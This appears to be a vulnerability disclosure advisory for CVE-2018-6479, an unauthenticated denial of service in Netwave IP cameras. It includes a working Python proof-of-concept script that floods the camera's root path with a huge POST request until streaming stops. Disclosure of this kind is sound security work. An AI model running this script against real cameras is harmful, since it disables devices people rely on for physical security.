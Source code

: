 # Netwave IP Camera server vulnerable to unauthenticated Denial of Service via one single huge POST request on any firmware.

| CVE |Description|
| -------------|-------------|
|CVE-2018-6479|Unauthenticated remote Denial of Service vulnerability|

| CVSS  |Score| Details|
| -------------|-------------|-------------|
|3|7.3|CVSS:3.0/AV:N/AC:L/PR:N/UI:N/S:U/C:N/I:N/A:H/E:X/RL:W/RC:X|


#### 0. Introduction:

During an IoT security research, some vulnerabilities have been discovered on differnet IP camera vendors. Netwave IP Camera is a IP Camera server which allows to see camera video and administrate the camera. IP Cameras are used especially for physical security and control purposes, so it's availability is crucial.


#### 1. Denial of Service:

Any Netwave IP Camera can be taken down just by sending a huge POST request to its root path. Once you send the request, the device get stucked and stops streaming audio and video.

Proof of Concept: Run the following Python 2.7 script against any NetWave IP Camera, it will stop responding and streaming video/audio instantly.

```
import string
import httplib
import urllib2

host = "CAMERA_IP"
port = 80
params='A'*9999999 # Huge body

headers = { 
"Host": host + ':' + str(port),
"Connection": "keep-alive",
"Content-Length": 9999999,
}

url = "/"

conn = httplib.HTTPConnection(host,port=port)
conn.request("POST",url,params,headers)
response = conn.getresponse()
data = response.read()
print data
```

#### 2. Researcher:

Gonzalo García León

